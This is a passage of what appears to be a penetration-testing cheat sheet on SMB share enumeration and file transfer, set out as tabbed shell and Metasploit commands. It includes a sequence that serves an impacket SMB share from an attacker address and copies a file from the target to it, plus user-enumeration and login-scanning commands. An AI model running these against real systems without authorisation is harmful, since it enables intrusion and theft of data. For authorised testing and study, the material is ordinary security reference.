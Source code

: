 {% tab title="List Dir Perms" %}
```bash
smbcacls -N '//10.10.10.10/share1' /dir1
```
{% endtab %}

{% tab title="List Perms Recursively" %}
{% code overflow="wrap" %}
```bash
$ for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/share1' /dir1/$i ; done
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Server" %}
```bash
impacket-smbserver -smb2support share . -username test -password tes
```
{% endtab %}

{% tab title="2. Connect" %}
```powershell
 net use x: \\10.10.14.4\share /USER:test test
```
{% endtab %}

{% tab title="3. Transfer" %}
```powershell
copy file1 x:\
```
{% endtab %}
{% endtabs %}

### Other

{% tabs %}
{% tab title="Enum (1)" %}
```bash
/opt/enum4linux-ng/enum4linux-ng.py 10.10.10.10 -A
```
{% endtab %}

{% tab title="Enum (2)" %}
```bash
/opt/impacket/examples/samrdump.py 10.10.10.10
```
{% endtab %}

{% tab title="Version" %}
```bash
use auxiliary/scanner/smb/smb_version
```
{% endtab %}

{% tab title="User Enum" %}
```bash
use auxiliary/scanner/smb/smb_login
```
{% endtab %}
{% endtabs %}
